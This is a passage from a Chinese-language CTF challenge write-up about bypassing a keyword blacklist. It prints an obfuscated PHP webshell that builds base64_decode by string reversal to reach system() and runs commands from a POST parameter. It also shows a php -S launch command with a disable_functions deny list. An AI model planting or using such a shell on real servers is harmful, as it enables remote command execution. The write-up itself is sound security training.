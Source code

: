 ## 第三阶段 绕黑名单

其实绕黑名单这里并不是主要考察点，相信师傅们有各种姿势，我用的是php对base64解码的包容性来绕过的

相信师傅们能够一眼出，就不多解释了

```php
<?php
$a = 'edoced_46esab';
$b = strrev($a);

$d = 'c3~@#@#@lz!@dGVt';
$s = $b($d);

echo $sys;
$s($_POST[1]);
?>
```

![image-20250113110534932](./img/image-20250113110534932.png)

最后提一嘴，其实要phpinfo看一下或者fuzz一下的，因为我`disable_functions`常见的就放了system

```
php -S 0.0.0.0:80 -t /tmp/suctf_web/ -d expose_php=off -d disable_functions="passthru,exec,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv"
```

